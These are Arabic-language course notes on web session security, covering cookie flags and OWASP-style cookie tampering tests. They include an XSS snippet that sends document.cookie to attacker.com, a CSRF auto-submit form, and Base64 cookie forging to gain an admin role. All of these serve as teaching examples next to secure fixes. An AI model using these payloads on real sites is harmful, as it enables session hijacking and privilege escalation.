







# 🎓 الجزء 6: Cookies & Cookie Parameters + Cookie Tampering
## Slides 72 → 93

---

## Slide 72: عنوان القسم - Cookies & Cookie Parameters
### سلايد 72:

يلا بينا ندخل في التفاصيل بتاعة الـ **Cookies** — اللي هي العمود الفقري للـ Session Management في أغلب التطبيقات.

في الجزء اللي فات اتكلمنا عن الـ Session Management بشكل عام وقلنا إن الـ Session ID غالباً بيتخزن في Cookie. النهارده هنفتح الـ Cookie دي ونشوف جواها إيه — كل Parameter، كل Flag، وإزاي بنختبرها ونعمل Tampering عليها.

---

## Slide 73: تعريف الـ Cookies
### سلايد 73:

### إيه هي الـ Cookies؟

> الـ **Cookies** هي قطع صغيرة من البيانات (Small Pieces of Data) بيخزنها المتصفح عندك بناءً على تعليمات من المواقع اللي بتزورها.

### ليه موجودة أصلاً؟

زي ما قلنا — الـ HTTP **Stateless**. السيرفر مش فاكرك. الـ Cookies بتحل المشكلة دي عن طريق إنها بتحفظ معلومات عنك عند المتصفح وترجعها للسيرفر مع كل Request.

### إيه اللي بتتخزن في الـ Cookies؟

```
أمثلة على الداتا اللي بتتخزن في Cookies:

 Session ID        → عشان السيرفر يعرفك
 Language Preference → "ar" أو "en"
 Shopping Cart      → المنتجات اللي في السلة
 Tracking Data      → Analytics و Advertising
 Login Status       → مسجل دخول ولا لأ
```

### في الـ Backend — إزاي السيرفر بيبعت Cookie؟

```javascript
// Express.js — بعت Cookie للمتصفح
app.get('/login', (req, res) => {
    // بعد التحقق من البيانات...
    
    // الطريقة 1: Cookie بسيطة
    res.cookie('username', 'khaled');
    
    // الطريقة 2: Cookie مع Security Options
    res.cookie('session_id', 'aB3x9kL7mN', {
        httpOnly: true,     // JavaScript ميقدرش يوصلها
        secure: true,       // HTTPS بس
        sameSite: 'Strict', // مش بتتبعت مع Cross-Site Requests
        maxAge: 3600000,    // ساعة واحدة بالميلي ثانية
        path: '/'           // متاحة على كل صفحات الموقع
    });
    
    res.send('Welcome!');
});
```

**الـ HTTP Response هيبقى شكله كده:**
```http
HTTP/1.1 200 OK
Set-Cookie: username=khaled
Set-Cookie: session_id=aB3x9kL7mN; HttpOnly; Secure; SameSite=Strict; Max-Age=3600; Path=/
Content-Type: text/html

Welcome!
```


### تحليل الـ Set-Cookie Header:



---

## Slide 74: إزاي الـ Cookies بتشتغل في الـ Session Management
### سلايد 74:

### الـ Flow الكامل:



**شرح الـ Diagram:**
الـ flow بيوضح دورة حياة الـ Cookie كاملة. المستخدم بيسجل دخول ← السيرفر بيبعت Cookie فيها Session ID ← المتصفح بيحفظها ويبعتها تلقائياً مع كل Request ← السيرفر بيقرأ الـ Cookie ويعرف مين ده ← لما المستخدم يعمل Logout ← السيرفر بيمسح الـ Session وبيبعت Cookie فاضية بـ `Max-Age=0` عشان المتصفح يمسحها.

النقطة المهمة: **المتصفح بيبعت الـ Cookie تلقائياً**. مش محتاج أي كود JavaScript. وده بالظبط اللي بيخلي هجمات زي الـ CSRF ممكنة — لأن المتصفح بيبعت الـ Cookie حتى لو الـ Request جاي من موقع تاني!

---

## Slide 75: الـ Cookie Parameters — HttpOnly
### سلايد 75:

### 🔹 Parameter 1: HttpOnly

```http
Set-Cookie: session_id=abc123; HttpOnly
```

### إيه وظيفته؟
بيمنع **JavaScript** من الوصول للـ Cookie تماماً.

### يعني إيه عملياً؟

```javascript
// بدون HttpOnly — أي Script يقدر يقرأ الـ Cookie:
document.cookie
// النتيجة: "session_id=abc123"
// المهاجم عن طريق XSS يقدر يسرقها!

// مع HttpOnly — JavaScript مش شايف الـ Cookie:
document.cookie
// النتيجة: "" (فاضي!)
// الـ Cookie موجودة بس مخفية عن JavaScript
```

### ليه ده مهم جداً؟

تخيل موقع عنده ثغرة **XSS** (Cross-Site Scripting). المهاجم يقدر يحقن كود JavaScript في الصفحة:

```html
<!-- المهاجم حقن الكود ده عن طريق XSS -->
<script>
    // بيسرق الـ Cookie ويبعتها لسيرفره
    var stolen = document.cookie;
    fetch('https://attacker.com/steal?cookie=' + stolen);
</script>
```

**بدون HttpOnly:** الاتاك بينجح — المهاجم بياخد الـ Session ID ويدخل حسابك.

**مع HttpOnly:** الاتاك بيفشل — `document.cookie` مش هيرجع الـ Session Cookie لأنها مخفية.

### في الـ Backend — إزاي بنحطها:

```python
# Flask (Python)
response.set_cookie('session_id', value='abc123', httponly=True)

# Django (Python)
SESSION_COOKIE_HTTPONLY = True  # في settings.py

# Express (Node.js)
res.cookie('session_id', 'abc123', { httpOnly: true })

# PHP
setcookie('session_id', 'abc123', [
    'httponly' => true
]);
# أو في php.ini:
# session.cookie_httponly = 1
```

---

## Slide 76: الـ Cookie Parameters — Secure
### سلايد 76:

### 🔹 Parameter 2: Secure

```http
Set-Cookie: session_id=abc123; Secure
```

### إيه وظيفته؟
الـ Cookie دي **مش هتتبعت إلا عبر HTTPS**. لو الاتصال HTTP عادي (مش مشفر) — المتصفح مش هيبعتها.

### ليه ده مهم؟

لو المستخدم فتح الموقع عبر HTTP (مش HTTPS)، كل الداتا اللي بتتبعت — بما فيها الـ Cookies — بتتنقل كـ **Plain Text**. أي حد على نفس الشبكة (زي WiFi في كافيه) يقدر يعمل **Sniffing** ويشوف الـ Session ID بتاعك!



**شرح الـ Diagram:**
الـ diagram بيوضح الفرق بين إرسال Cookie عبر HTTP و HTTPS. في حالة HTTP، الـ data بتتنقل Plain Text وأي حد على الشبكة (زي مهاجم على نفس الـ WiFi) يقدر يقرأ الـ Session ID. في حالة HTTPS، الـ data مشفرة والمهاجم مش هيشوف حاجة مفيدة.

### مثال عملي — Sniffing بـ Wireshark:

```
# HTTP (بدون Secure Flag):
المهاجم فتح Wireshark على نفس الشبكة...
بيشوف الـ Packets بتاعتك:

GET /dashboard HTTP/1.1
Host: target.com
Cookie: session_id=abc123
         ↑
    واضحة زي الشمس! 

# HTTPS (مع Secure Flag):
المهاجم فتح Wireshark...
بيشوف:

TLSv1.3 Application Data: 8f2a...c4b7...
         ↑
    مش فاهم حاجة الطلام مشفر
```

---

## Slide 77: الـ Cookie Parameters — SameSite
### سلايد 77:

### 🔹 Parameter 3: SameSite

```http
Set-Cookie: session_id=abc123; SameSite=Lax
```

### إيه وظيفته؟
بيتحكم في **إرسال الـ Cookie في طلبات الـ Cross-Site**.
ببساطة: لو المستخدم فاتح موقع `evil.com`، هل المتصفح يوافق يبعت الـ Cookie الخاصة بـ `bank.com` مع الطلبات اللي بتطلع من `evil.com`؟

الهدف الأساسي منه هو **الحماية من هجمات CSRF** (Cross-Site Request Forgery).

### الأوضاع الثلاثة (The Three Modes):

الشكل ده بيلخص الفرق بينهم:



### شرح كل Mode بالتفصيل:

**1. Strict (الأكثر صرامة/أماناً):**
- **السلوك:** الـ Cookie بتتبعت **فقط** لو المستخدم فاتح الموقع نفسه (First-Party).
- **المشكلة:** لو حد بعتلك لينك للموقع (`bank.com`) وضغطت عليه، الموقع هيفتح بس **من غير** الـ Cookie، فهتضطر تعمل Login تاني.
- **الاستخدام:** للتطبيقات الحساسة جداً اللي مش محتاجة حد يدخلها من لينكات خارجية.

**2. Lax (المتوازن - Default الحديث):**
- **السلوك:** الـ Cookie بتتبعت في الحالتين:
    1. زيارات الـ First-Party العادية.
    2. **الـ Top-Level Navigations:** يعني لو المستخدم **ضغط على لينك** بيوديه للموقع (GET Request).
- **الحماية:** **مش بتتبعت** مع الـ Sub-requests زي الصور (``) أو الـ Forms (`POST`) اللي جاية من مواقع تانية.

**3. SameSite=None (بدون حماية):**
- **السلوك:** الـ Cookie بتتبعت في كل الحالات (Cross-Site requests شغالة عادي).
- **الشرط:** لازم يكون معاه **`Secure`** Flag (HTTPS)، وإلا المتصفحات الحديثة هترفضه.
- **الاستخدام:** لو الموقع محتاج يشتغل كـ Embedded Content (زي يوتيوب في `iframe` أو ويدجت).

### ليه SameSite مهم ضد CSRF؟

هجمات الـ CSRF بتعتمد إن المتصفح بيبعت الـ Cookie تلقائياً مع أي طلب للسيرفر.

```html
<!-- هجمة CSRF نموذجية -->
<form action="https://bank.com/transfer" method="POST">
    <!-- بيانات التحويل للمهاجم -->
</form>
<script>document.forms[0].submit();</script>
```

- **لو SameSite=None:** المتصفح **هيبعت الـ Cookie**، فالسيرفر هيقبل الطلب و الاتاك هينجح .
- **لو SameSite=Lax/Strict:** ده طلب `POST` جاي من موقع غريب (Cross-Site)، فالمتصفح **مش هيبعت الـ Cookie**. السيرفر هيشوف الطلب كأنه من مستخدم مش مسجل دخول، الاتاك هيفشل .

---

## Slide 78: الـ Cookie Parameters — Expiration / Max-Age
### سلايد 78:

### 🔹 Parameter 4: Expiration / Max-Age

```http
Set-Cookie: session_id=abc123; Max-Age=3600
Set-Cookie: session_id=abc123; Expires=Mon, 17 Feb 2026 18:00:00 GMT
```

### إيه وظيفته؟
بيحدد **عمر الـ Cookie** — يعني امتى المتصفح يمسحها.

### الفرق بين الاتنين:

| الخاصية | الشرح | مثال |
|---------|-------|------|
| **Max-Age** | عدد الثواني من الآن | `Max-Age=3600` = ساعة من دلوقتي |
| **Expires** | تاريخ ووقت محدد | `Expires=Mon, 17 Feb 2026 18:00:00 GMT` |
| **مفيش واحد فيهم** | **Session Cookie** — بتتمسح لما تقفل المتصفح | — |

### أنواع الـ Cookies حسب العمر:

**Session Cookie (مؤقتة):**
```http
Set-Cookie: session_id=abc123; HttpOnly; Secure
# مفيش Max-Age أو Expires
# بتتمسح لما المستخدم يقفل المتصفح
```

**Persistent Cookie (دائمة):**
```http
Set-Cookie: session_id=abc123; Max-Age=2592000; HttpOnly; Secure
# 2592000 ثانية = 30 يوم
# هتفضل موجودة حتى لو المستخدم قفل المتصفح وفتحه تاني
```

### ليه ده مهم أمنياً؟

الـ Cookie كل ما عمرها أطول — **نافذة الهجوم أكبر**. لو عندك Session Cookie عمرها سنة — ده معناه إن لو اتسرقت، المهاجم عنده سنة كاملة يستخدمها!

```
خطورة عمر الـ Cookie:

⏱️ Max-Age=900     (15 دقيقة)  →  كويس
⏱️ Max-Age=31536000 (سنة!)     →  خطر
```


---

## Slide 79-80: مثال عملي كامل
### سلايد 79-80:

### مثال: إعداد Cookie آمنة بكل الـ Parameters

خلينا نشوف مثال كامل — الـ Request اللي المستخدم بيبعته والـ Response اللي السيرفر بيرجعهوله:

**الـ Login Request:**
```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=testuser&password=examplepassword
```

**الـ Server Response (بكل الـ Security Flags):**
```http
HTTP/1.1 200 OK
Set-Cookie: session_id=abc123xyz; HttpOnly; Secure; SameSite=Lax; Path=/; Max-Age=3600
Content-Type: text/html

<html>
<body>Welcome, testuser!</body>
</html>
```

### خلينا نحلل الـ Cookie دي Flag بـ Flag:

```
Set-Cookie: session_id=abc123xyz; HttpOnly; Secure; SameSite=Lax; Path=/; Max-Age=3600
             │                      │         │       │              │      │
             │                      │         │       │              │      └─ عمرها ساعة
             │                      │         │       │              └─ متاحة على كل الصفحات
             │                      │         │       └─ CSRF Protection (متوسط)
             │                      │         └─ HTTPS بس
             │                      └─ JavaScript ميقدرش يوصلها
             └─ القيمة: Session ID فريد
```

### إزاي تشوف ده في DevTools:

```
1. افتح Chrome DevTools (F12)
2. روح Application → Cookies
3. هتلاقي جدول فيه:

Name         | Value        | HttpOnly | Secure | SameSite | Expires/Max-Age
session_id   | abc123xyz    | ✓        | ✓      | Lax      | 2026-02-16T19:00:00

لو لقيت أي ✗ في الخانات دي = ابدأ جرب سيناريوهات زي ما قولنا
```

---

## Slide 81: عنوان القسم - Testing Session Management Schema: Cookie Tampering
### سلايد 81:

دلوقتي بعد ما فهمنا الـ Cookies وكل Parameters بتاعتها — ندخل في الجزء العملي: **إزاي بنختبرها؟**

الـ **Cookie Tampering** هو إننا نحاول نعدل في الـ Cookie ونشوف هل السيرفر هيقبل التعديل ولا لأ. لو قبله — يبقى عندنا ثغرة.

---

## Slide 82: تعريف اختبار مخطط إدارة الجلسات
### سلايد 82:

### Testing Session Management Schema (WSTG-SESS-01)

### التعريف:
> الاختبار ده بيركز على تقييم أمان **إدارة الجلسات** في التطبيق. بنتحقق إن آليات الـ Session Management متنفذة صح ومفيش ثغرات يقدر المهاجم يستغلها عشان يسرق أو يتلاعب بالجلسات.

### الهدف الأساسي:
نتأكد إن الـ Session Management Schema **سليم وآمن**، وده بيشمل:
- إزاي الـ Session Tokens بتتولد (Generation)
- إزاي بتتدار (Maintenance)  
- إزاي بتنتهي (Termination)

### في الـ Backend — إيه اللي ممكن يبقى غلط؟

```javascript
//  مثال على Session Management ضعيف:
app.post('/login', (req, res) => {
    // Session ID متوقع ومبني على بيانات المستخدم!
    const sessionId = Buffer.from(req.body.username + ':' + Date.now())
                           .toString('base64');
    // sessionId = "a2hhbGVkOjE3MDgxMDAwMDA="
    // ده Base64 بس! أي حد يقدر يفكه ويفهم البنية!
    
    res.cookie('sid', sessionId);
    res.redirect('/dashboard');
});

//  مثال على Session Management قوي:
const crypto = require('crypto');
app.post('/login', (req, res) => {
    // Session ID عشوائي تماماً
    const sessionId = crypto.randomBytes(32).toString('hex');
    // sessionId = "7f3a2bQx9KmPdR4nL8v5tY1wZ..." 
    // مستحيل تخمينه أو فهم بنيته
    
    res.cookie('sid', sessionId, {
        httpOnly: true, secure: true, 
        sameSite: 'Strict', maxAge: 3600000
    });
    
    // حفظ في الـ Store
    sessionStore.set(sessionId, { userId: user.id, role: user.role });
    res.redirect('/dashboard');
});
```

---

## Slide 83: خطوات الهجوم على الـ Cookies
### سلايد 83:

### الخطوات الأساسية للهجوم:

الهجوم على الـ Cookies بيمر بثلاث مراحل:



**شرح الـ Diagram:**
الهجوم على Cookies بيمشي في 3 مراحل متتالية. الأول بنجمع عينات كتير من Cookies (لنفس المستخدم ولمستخدمين مختلفين). بعدين بنحلل البنية — هل فيها Patterns؟ هل مشفرة؟ بأي Algorithm؟ وأخيراً بنحاول نعدل القيم ونشوف هل السيرفر بيقبل التعديل.

### المرحلة 1 — Cookie Collection:
```
جمع عينات كافية من الـ Cookies:

🔹 سجل دخول بنفس المستخدم 10 مرات → شوف الـ Session IDs
🔹 سجل دخول بمستخدمين مختلفين → قارن الـ IDs
🔹 سجل دخول من أجهزة/IPs مختلفة → شوف لو الـ ID بيتغير
🔹 في Burp: HTTP History → Sort by Set-Cookie

أنت بتدور على:
✓ هل الـ IDs عشوائية فعلاً؟
✓ هل فيها Pattern (زي Timestamp أو Username)؟
✓ هل طولها ثابت ولا بيتغير؟
```

### المرحلة 2 — Cookie Reverse Engineering:
```
بتحلل البنية:

مثال — لقيت Cookie قيمتها:
"YWRtaW46MTcwODEwMDAwMDphZG1pbg=="

1. جرب Base64 Decode:
   → "admin:1708100000:admin"
   → يا سلام! الـ Username + Timestamp + Role!

2. لو مش Base64 — جرب Hex, URL Encoding, أو حتى Encryption

3. لو مش عارف — استخدم Burp Sequencer لتحليل العشوائية
```

### المرحلة 3 — Cookie Manipulation:
```
بعد ما فهمت البنية — بتعدل:

الـ Cookie الأصلية: "YWRtaW46MTcwODEwMDAwMDp1c2Vy"
Decoded: "admin:1708100000:user"
                                ↑
                        غيرها لـ "admin"

الـ Cookie المزورة: "YWRtaW46MTcwODEwMDAwMDphZG1pbg=="
Decoded: "admin:1708100000:admin"

ابعتها للسيرفر وشوف هيحصل إيه! 
```

### الأهداف (Test Objectives):

1. **اجمع Session Tokens** — لنفس المستخدم ولمستخدمين مختلفين
2. **حلل العشوائية** — استخدم Burp Sequencer عشان تتأكد الـ Randomness كافية
3. **عدل الـ Cookies** اللي مش Signed أو مش مشفرة وشوف هل السيرفر بيقبل التعديل

---

## Slide 84: تحديد نقاط الضعف في بنية الـ Session Token
### سلايد 84:

### هدف 1: Identify Weaknesses in Session Token Structure

بندور على إجابات للأسئلة دي:

**هل الـ Session Token متوقع (Predictable)؟**
```
مثال على Tokens متوقعة:

Token 1: sess_001
Token 2: sess_002
Token 3: sess_003
← واضح إنها Sequential! المهاجم يقدر يخمن Token 4 = sess_004

Token 1: user_admin_1708100000
Token 2: user_khaled_1708100060
Token 3: user_ahmed_1708100120
← الـ Username + Timestamp! المهاجم يقدر يبني Token لأي مستخدم
```

**هل الـ Encoding/Hashing قوي كفاية؟**
```
 Base64 بس:
   Cookie: YWRtaW4=         → admin (ده مش تشفير — ده encoding!)
   
 MD5 Hash:
   Cookie: 21232f297a...    → MD5("admin") — قابل لـ Rainbow Table
   
 HMAC-SHA256 مع Secret Key:
   Cookie: 7f3a2b...        → مش قابل للتزوير بدون المفتاح
```

**هل الـ Token بيتغير بعد Login؟**
```
# قبل Login:
Cookie: session_id=OLD_TOKEN_123

# بعد Login:
Cookie: session_id=OLD_TOKEN_123   ←  نفس الـ Token! (Session Fixation!)
Cookie: session_id=NEW_TOKEN_456   ←  Token جديد (آمن)
```

---

## Slide 85: اختبار التحكم في الصلاحيات
### سلايد 85:

### هدف 2: Test for Authorization Control Failures

### إيه اللي بندور عليه؟

**هل فيه معلومات حساسة في الـ Cookie؟**

```http
#  Cookie فيها الـ Role:
Set-Cookie: user=eyJ1c2VyIjoiYWhtZWQiLCJyb2xlIjoiZ3Vlc3QifQ==

# Base64 Decode:
# {"user":"ahmed","role":"guest"}

# المهاجم يغير الـ role:
# {"user":"ahmed","role":"admin"}
# ويعملها Base64 Encode ويبعتها:
Set-Cookie: user=eyJ1c2VyIjoiYWhtZWQiLCJyb2xlIjoiYWRtaW4ifQ==

# لو السيرفر قبلها = Privilege Escalation! 
```

**هل السيرفر بيعتمد على الـ Cookie بس في الصلاحيات؟**

```javascript
// ❌ كود Backend ضعيف — بيثق في الـ Cookie:
app.get('/admin', (req, res) => {
    const userData = JSON.parse(
        Buffer.from(req.cookies.user, 'base64').toString()
    );
    
    if (userData.role === 'admin') {
        // بيدي Admin Access بناءً على الـ Cookie بس!
        res.render('admin-panel');
    }
});

// ✅ كود Backend قوي — بيتحقق من الـ Database:
app.get('/admin', (req, res) => {
    const session = sessionStore.get(req.cookies.sid);
    const user = db.findById(session.userId);
    
    if (user.role === 'admin') {
        // بيتحقق من الـ Database مش من الـ Cookie
        res.render('admin-panel');
    }
});
```

---

## Slide 86: التحقق من أمان نقل الـ Cookies
### سلايد 86:

### هدف 3: Verify Secure Cookie Transmission

### الفحوصات الأساسية:

**1. هل الـ Cookie بتتنقل عبر HTTPS بس (Secure Flag)؟**
```
في Burp Suite:
1. HTTP History → Filter by Set-Cookie
2. شوف كل Cookie فيها Session ID
3. دور على كلمة "Secure" في الـ Response

```

**2. هل الـ Cookie محمية من JavaScript (HttpOnly Flag)؟**
```
في DevTools Console:
> document.cookie
> "tracking=abc; language=ar"

```

**3. هل فيه HSTS (HTTP Strict Transport Security)؟**
```http
# الـ Header المطلوب:
Strict-Transport-Security: max-age=31536000; includeSubDomains

# ده بيقول للمتصفح:
# "لمدة سنة — متبعتش أي Request لـ HTTP خالص. HTTPS بس."
```

---

## Slide 87-88: الاختبارات والتقنيات الرئيسية
### سلايد 87-88:

### جدول شامل — الاختبارات والثغرات:

| الاختبار | الوصف | الثغرة |
|----------|-------|--------|
| **Predictable Session IDs** | تحليل عشوائية الـ Session Tokens | المهاجم يخمن أو يولد Tokens صالحة |
| **Session Fixation** | هل الـ Session ID بيتغير بعد Login؟ | المهاجم يثبت Session ID ويسرق الجلسة بعد Login |
| **Session Expiration** | هل الـ Sessions بتنتهي بعد Timeout و Logout؟ | Sessions مش بتنتهي = المهاجم يستخدمها لأي وقت |
| **Session Hijacking** | إعادة استخدام Session Cookie من جهاز تاني | المهاجم يسرق الجلسة لو الـ Token مش مربوط بالجهاز |
| **Cookie Security Flags** | فحص HttpOnly, Secure, SameSite | الـ Flags الناقصة بتعرض الـ Cookie لـ XSS و CSRF و Sniffing |
| **Session Timeout** | اختبار انتهاء الجلسة بعد فترة عدم نشاط | Sessions طويلة بتزود خطر إعادة الاستخدام |
| **Session Token in URLs** | هل الـ Token بيظهر في الـ URL؟ | بيتسرب في Referer Headers و Logs و Browser History |

> **💡 نصيحة:** لما بتكتب تقرير Pentest — قسم الـ Session Management Findings حسب الجدول ده. ده بيساعد العميل يفهم كل ثغرة لوحدها وإزاي يصلحها.

---

## Slide 89: تعريف الـ Cookie Reverse Engineering & Tampering
### سلايد 89:

### Cookie Reverse Engineering & Tampering

### التعريف:
> **Cookie Reverse Engineering** هو إنك تحلل الـ Session Cookie عشان تفهم بنيتها — إزاي متنظمة، إيه الـ Encoding المستخدم، وإيه المعلومات المخزنة جواها.
>
